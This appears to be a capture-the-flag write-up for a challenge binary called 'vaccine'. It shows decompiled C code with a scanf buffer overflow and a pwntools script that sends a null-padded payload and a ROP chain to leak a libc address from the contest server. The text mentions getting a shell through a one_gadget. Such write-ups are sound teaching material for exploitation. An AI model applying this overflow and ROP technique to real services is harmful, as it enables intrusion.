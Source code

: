 ```c
  fflush(_bss_start);
  __isoc99_scanf("%s", s2);
  for ( i = 0; ; ++i )
  {
    v3 = i;
    if ( v3 >= strlen(s2) )
      break;
    if ( s2[i] != 65 && s2[i] != 67 && s2[i] != 71 && s2[i] != 84 )
    {
      puts("Only DNA codes allowed!");
      exit(0);
    }
  }
  if ( strcmp(s, s2) )
  {
    puts("Oops.. Try again later");
    exit(0);
  }
  puts("Congrats! You give the correct vaccine!");
  v8 = fopen("secret.txt", "r");
  fgets(v5, 100, v8);
  printf("Here is your reward: %s\n", v5);
  return 0;
}
```

<br>

We can see scanf gives buffer overflow.

And if we fill all allocated stacks with NULL bytes, strlen and strcmp will be passed with no problem.

Finding libc and making ROP chain was so hard...... :(

I failed using system("/bin/sh"), but luckily, one of the one\_gadgets worked.

<br>

### **ex.py**

```python
from pwn import *

io = process("./vaccine")
e = ELF('./vaccine')
libc = e.libc

io = remote("vaccine.chal.ctf.acsc.asia", 1337)
libc = ELF('./libc6_2.31-0ubuntu9.9_amd64.so')
# libc = ELF('./libc6_2.31-0ubuntu9.8_amd64.so')

sym = 'fopen'

puts_plt = e.plt['puts']
main = e.symbols['main']
sym_got = e.got[sym]

pop_rdi_ret = 0x401443

payload = b"\x00" * 0x100 + b"B" * 8
payload += p64(pop_rdi_ret) + p64(sym_got) + p64(puts_plt)

payload += p64(main)

io.sendlineafter("vaccine: ", payload)
```